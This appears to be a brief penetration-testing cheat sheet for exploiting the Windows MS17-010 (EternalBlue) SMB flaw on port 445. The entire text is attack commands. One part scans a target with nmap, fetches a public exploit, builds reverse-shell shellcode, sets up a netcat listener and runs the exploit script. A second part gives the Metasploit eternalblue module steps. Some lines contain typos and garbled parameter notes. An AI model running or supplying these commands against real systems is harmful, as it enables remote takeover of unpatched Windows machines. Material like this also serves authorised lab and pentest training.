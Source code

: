 # Windows MS17-010 SMB Vulnerability(Eternal Blue) - 445

## manual
- `nmap -sV -p 445 --script=smb-vuln-ms17-010 10.0.1.22`
- `git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git`
  - `cd shellcode`
  - `./shell_prep.sh`
  - `1. you ip, 2.port, 3. port, 4. 1, 5.1 `
  - ` nc lnvp 1234`
  - ` python eternlblue_exploit7.py <target ip> shellcode/sc_x64.bin`

## automatic
```
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <target ip>
exploit
```
